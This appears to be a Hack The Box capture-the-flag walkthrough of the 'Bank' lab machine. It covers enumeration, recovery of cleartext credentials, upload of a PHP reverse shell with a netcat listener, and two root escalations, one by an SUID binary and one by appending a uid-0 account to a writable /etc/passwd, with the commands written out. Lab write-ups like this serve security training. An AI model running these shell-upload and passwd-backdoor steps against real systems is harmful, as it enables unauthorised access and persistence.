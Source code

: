 # HTB - Bank

#### Ip: 10.10.10.29
#### Name: Bank
#### Rating: Easy

----------------------------------------------------------------------

Bank.png

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.29         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 09:18 CDT
Nmap scan report for 10.10.10.29
Host is up (0.092s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ sudo nmap -sC -sV -T4 10.10.10.29 -p 22,53,80       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 09:18 CDT
Nmap scan report for 10.10.10.29
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.27 seconds
```

Based on normal HacktheBox naming conventions, lets add bank.htb to the `/etc/hosts` file and see if we can do any type of zone transfer, seeing how DNS is open here.

Ok cool, looks like we got a few entries back from the zone transfer. Lets also add these to `/etc/hosts` before moving on to HTTP.

dns.png 

Navigating to just the IP, it looks like we've got just a default landing page for Apache.

landing.png

but if we go to bank.htb we are forwarded to bank.htb/login.php where met with a simple login:

login.php

Cool, now  that we know PHP is being used we can do some directory busting, and make sure to include fuxxing for .php pages as well.

directory.png

Note: I had to include the `--filter-status 404` flag because I was getting so many 404 errors, and I just like to use the `-q`  (quiet) flag to bypass any graphics and keep my screenshots more tidy.

Cool, we found some interesting directories. `/balance-transfer` seems especially interesting.

In the `/balance-transfer` directory we find a large number of .acc files:

bt.png

We can download these files and they appear to have hashed user information, including credentials:

dl.png

Looking at the size of these files they all appear to be somewhere between 580-585, but if we sort them by their size rather than by name, we find one that is considerably smaller:

size.png

Downloading this file we can see why it is so much smaller than the others. Looks like we've got an Encryption Failed error message, and this user's data was stored in clear-text.

chris.png

Great, we can use these credentials to login to the site:

chris_login.png

### Exploitation

Navigating around the site, we find a File Upload feature in the support page.

support.png

After having a hard time getting anything to load succesfully, I take a look at the page source and find a super interesting comment left behind:

htb.png

Now that's interesting. Because we know the site is using PHP, lets grab a copy of PentestMonkey's php-reverse-shell.php and rename it as shell.htb.

First, we'll need to update the script with our correct IP adress and the port we'll listen on:

php-rev.png

We can then upload the file:

success.png

Recalling the `/uploads` directory discovered earlier, we can trigger the shell by navigating to bank.htb/uploads/shell.htb

And catch a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.29] 46908
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux
 18:29:18 up 23:07,  0 users,  load average: 0.00, 0.03, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
bank
```

After stabilizing the shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'
` we can grab the user.txt flag:

user_flag.png

From here I'll transfer over linpeas for further enumeration of a privilege escalation vector:

lp_tranfer.png

### Privilege Escalation #1

Linpeas finds `/var/htb/bin/emergency` which in an unkown SUID binary (these are almost always worth investigating..)

suid.png

Doing just a little more recon on the file, I see it is owned by root and I can execute it. Now I can simply run it and instantly drop into a root shell:

```text
www-data@bank:/tmp$ file /var/htb/bin/emergency
/var/htb/bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped
www-data@bank:/tmp$ ls -la /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
www-data@bank:/tmp$ cd /var/htb/bin
www-data@bank:/var/htb/bin$ ls
emergency
www-data@bank:/var/htb/bin$ ./emergency
# whoami
root
# hostname
bank
```

From here I can grab the root.txt flag:

root_flag.png

### Privilege Escalation #2

Linpeas also finds that the `/etc/passwd` file is writable. This lets us essentially give ourselves the keys to the kingdom! Lets add user root2 with root permissions:

passwd_write.png

```text
www-data@bank:/var/htb/bin$ openssl passwd password123
Warning: truncating password to 8 characters
uE5rNVxNCU7r2
< echo "root2:uE5rNVxNCU7r2:0:0:root:/root:/bin/bash" >> /etc/passwd          
www-data@bank:/var/htb/bin$ su root2
Password: 
root@bank:/var/htb/bin# whoami
root
root@bank:/var/htb/bin# hostname
bank
```
And that's that! Thanks for following along!

-Ryan

---------------------------------------------

